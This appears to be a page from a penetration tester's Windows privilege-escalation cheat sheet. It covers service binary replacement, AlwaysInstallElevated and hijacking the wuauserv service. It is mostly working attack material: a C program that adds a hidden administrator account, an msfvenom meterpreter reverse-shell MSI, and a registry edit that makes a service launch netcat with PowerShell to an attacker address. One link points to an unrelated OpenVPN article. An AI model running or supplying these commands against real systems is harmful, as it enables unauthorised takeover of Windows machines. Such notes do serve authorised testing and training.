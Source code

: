 ```
Cmd > move pwn.exe "C:\Program Files\Sub Directory\Vuln.exe"
Cmd > sc stop VulnerableSvc
Cmd > sc start VulnerableSvc
...Or reboot the PC if the attacker has SeShutdownPrivilege...
Cmd > shutdown /r /t 0
```

Malious binary example:

{% code title="pwn.c" %}
```c
// i686-w64-mingw32-gcc -o pwn.exe pwn.c

#include <stdio.h>
#include <stdlib.h>

void main() {
        system("net user snovvcrash Passw0rd! /add");
        system("net localgroup administrators snovvcrash /add");
}
```
{% endcode %}



### Always Install Elevated

* [https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/](https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/)

Check:

```
Cmd > reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
Cmd > reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Exploit:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f msi -o rev.msi
Cmd > msiexec /quiet /qn /i rev.msi
```



### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.13.37 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```
